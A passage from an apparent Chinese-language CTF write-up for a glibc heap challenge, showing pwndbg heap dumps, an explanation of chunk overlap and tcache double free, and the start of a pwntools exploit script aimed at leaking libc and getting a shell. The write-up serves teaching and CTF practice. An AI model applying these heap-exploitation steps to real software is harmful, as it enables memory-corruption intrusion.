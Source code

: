 ```c
00:0000│   0x5625fec6a5d0 ◂— 0x0
01:0008│   0x5625fec6a5d8 ◂— 0x1011
02:0010│   0x5625fec6a5e0 ◂— 0x30 /* '0' */
03:0018│   0x5625fec6a5e8 ◂— 0x0
... ↓

```

我们可以看到`chunk7`和`getchar`申请的缓冲区重叠，也正是如此，我们可以利用`getchar`来修改`chunk7`的`bk`指针,然后就是

```python
	dele(7)
	add(0x68,"\x00"*0x68)
	dele(7)
	cmd(3)
	p.recvuntil("sure?")
	p.send("\x00"*0xe)
	dele(7)
```

可以看到成功**double free**，堆上也有了`libc`的指针

```c
tcachebins
0x70 [  2]: 0x55e3221f45e0 ◂— 0x55e3221f45e0
0x80 [  7]: 0x55e3221f4560 —▸ 0x55e3221f44e0 —▸ 0x55e3221f4460 —▸ 0x55e3221f43e0 —▸ 0x55e3221f4360 —▸ 0x55e3221f42e0 —▸ 0x55e3221f4260 ◂— 0x0
unsortedbin
all: 0x55e3221f4640 —▸ 0x7f6ba8af9ca0 (main_arena+96) ◂— 0x55e3221f4640
```

后面就是泄露`libc`和`getshell`了，要注意`add`的次数就好,泄露的时候还是有点看脸,不过1/16的几率多跑几次就好

exp为：

```python
from pwn import *

def cmd(c):
	p.recvuntil("3.exit")
	p.sendline(str(c))

def add(sz,content):
	cmd(1)
	p.recvuntil("size:")
	p.sendline(str(sz))
	p.recvuntil("content:")
	p.send(content)
def dele(idx):
	cmd(2)
	p.recvuntil("index:")
	p.sendline(str(idx))
def main(host,port=20508):
	global p
	if host:
		p = remote(host,port)
	else:
		# p = process("./new_heap")
		p = process("./new_heap",env={"LD_PRELOAD":"./libc.so.6"})
		gdb.attach(p)
		
	p.recvuntil("friends:")
	heap = (int(p.recvuntil("\n",drop=True),16)>>4)<<12
	for i in range(8):
		add(0x78,"\x00"*0x78)
	for i in range(7):
		dele(i)
```